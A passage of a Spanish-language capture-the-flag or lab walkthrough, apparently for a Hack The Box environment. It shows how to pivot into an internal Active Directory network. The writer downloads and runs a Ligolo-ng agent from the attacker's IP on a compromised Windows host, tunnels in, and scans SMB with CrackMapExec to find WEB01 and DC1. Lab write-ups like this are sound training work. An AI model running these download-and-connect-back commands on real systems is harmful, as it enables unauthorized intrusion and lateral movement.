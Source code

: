 Antes de continuar, estableceremos un proxy para facilitar la conexión con los equipos dentro del dominio. Utilizaremos Ligolo-ng con el agente para conectarnos a nuestro equipo a través del puerto 8888, que especificaremos en el proxy.

```powershell
PS C:\ProgramData> curl 10.10.14.6/agent.exe -o agent.exe
PS C:\ProgramData> .\agent.exe -connect 10.10.14.6:8888 -ignore-cert  
```

Una vez ejecutado el agente, obtendremos una sesión en el proxy. Indicamos esta sesión y luego iniciamos el túnel con el comando start.

```bash
❯ ,/proxy -selfcert -laddr 0.0.0.0:8888
WARN[0000] Using automatically generated self-signed certificates (Not recommended) 
INFO[0000] Listening on 0.0.0.0:8888                    
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /  
        /____/                          /____/   

Made in France ♥ by @Nicocha30!

ligolo-ng » 
INFO[0076] Agent joined.           name="WEB01\\svc_dev@WEB01" remote="10.13.38.20:59528"  
ligolo-ng » session
? Specify a session : 1 - WEB01\svc_dev@WEB01 - 10.13.38.20:59528
[Agent : WEB01\svc_dev@WEB01] » start
INFO[0081] Starting tunnel to WEB01\svc_dev@WEB01       
[Agent : WEB01\svc_dev@WEB01] »
```

Después de agregar el segmento 192.168.10.0/24 a la interfaz de Ligolo, confirmamos la conectividad con todos los equipos del dominio realizando un ping a una dirección específica en ese rango.

```bash
❯ sudo ip route add 192.168.10.0/24 dev ligolo

❯ ping -c1 -w1 192.168.10.39
PING 192.168.10.39 (192.168.10.39) 56(84) bytes of data.
64 bytes from 192.168.10.39: icmp_seq=1 ttl=64 time=177 ms

--- 192.168.10.39 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms  
rtt min/avg/max/mdev = 176.552/176.552/176.552/0.000 ms
```

Luego, utilizando CrackMapExec, realizamos un escaneo del segmento /24 para detectar los equipos asociados al dominio "daedalus.local". Se encontraron dos equipos, WEB01 y DC1.

```bash
❯ crackmapexec smb 192.168.10.0/24
SMB         192.168.10.39   445    WEB01            [*] Windows Server 2019 Standard 17763 x64 (name:WEB01) (domain:daedalus.local) (signing:False) (SMBv1:True)  
SMB         192.168.10.6    445    DC1              [*] Windows 10.0 Build 17763 x64 (name:DC1) (domain:daedalus.local) (signing:True) (SMBv1:False)
```

